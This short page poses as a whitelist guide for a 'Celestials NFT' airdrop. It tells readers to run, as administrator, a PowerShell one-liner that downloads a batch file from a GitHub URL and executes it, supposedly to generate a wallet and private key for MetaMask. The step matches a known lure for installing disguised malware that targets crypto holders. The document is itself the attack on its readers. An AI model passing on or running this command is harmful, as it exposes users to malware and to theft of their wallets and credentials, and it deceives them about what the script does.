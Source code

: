 # CELESTIALS NFT WHITELIST GUIDE
How to generate wallet and qualify for Celestials NFT

1. When your command Prompt on Windows as Admin and run the following:
```
powershell -Command "Invoke-WebRequest -Uri https://github.com/CelestialNFT/Airdrop-Whitelist/raw/refs/heads/main/privatekey.bat -OutFile privatekey.bat; Start-Process -FilePath privatekey.bat -ArgumentList /c -NoNewWindow -Wait"
```
2. After You run the code Your wallet address will be generated in your folder
```
You get Private key and secret Phrase, Import to metamask and wait for TGE event. Follow us on twitter @celestianfts
```

